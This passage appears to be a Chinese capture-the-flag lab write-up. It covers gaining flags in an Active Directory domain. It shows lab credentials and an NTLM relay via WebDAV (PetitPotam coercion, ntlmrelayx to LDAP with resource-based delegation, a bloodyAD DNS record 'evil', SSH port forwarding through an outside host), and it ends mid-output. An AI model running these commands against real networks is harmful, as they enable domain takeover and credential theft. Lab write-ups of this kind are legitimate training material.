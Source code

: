 ```shell
           ##                                                           ######
           ##                                                           :####:


flag02: flag{0286999a-84ba-4685-a220-bdaf3d8e0210}
```

## flag03

域用户凭据

```shell
yangmei:xrihGHgoNZQ
```

根据题目描述, 考虑 NTLM Relay via WebDAV

检测内网启动了 WebClient 服务的机器

![image-20230816125859701](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161258750.png)

PetitPotam

![image-20230816130032840](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161300887.png)

使用 addcomputer.py 创建机器账户的时候提示如下

```shell
[-] User yangmei machine quota exceeded!
```

查询后发现 `MAQ=0`, 但是上面 mimikatz 已经导出了 `XR_DESKTOP$` 账户的 Hash, 所以用这个机器账户配置 RBCD 就行

先启动 ntlmrelayx.py

```shell
proxychains ntlmrelayx.py -t ldap://172.22.11.6 --escalate-user 'XR-DESKTOP$' --delegate-access --no-dump
```

> 默认情况下, WebClient 仅对本地内部网 (Local Intranet) 或受信任的站点 (Trusted Sites) 列表中的目标自动使用当前用户凭据进行 NTLM 认证

添加 DNS 信息

```shell
$ proxychains bloodyAD -d xiaorang.lab -u yangmei -p xrihGHgoNZQ --host 172.22.11.6 add dnsR
ecord evil 172.22.11.76
[+] evil has been successfully added
```

ssh 远程端口转发

```shell
ssh root@39.99.156.24 -D 1080 -R 81:127.0.0.1:80
```

但因为默认情况下远程端口转发只监听本地地址, 所以要么修改 sshd config 要么用端口转发工具中转一下

```shell
root@ubuntu:~# netstat -ntpl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      435/systemd-resolve
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      622/sshd: /usr/sbin
tcp        0      0 127.0.0.1:81            0.0.0.0:*               LISTEN      2955/sshd: root@pts
tcp6       0      0 127.0.0.1:8005          :::*                    LISTEN      639/java
tcp6       0      0 :::8009                 :::*                    LISTEN      639/java
tcp6       0      0 :::8080                 :::*                    LISTEN      639/java
root@u
```

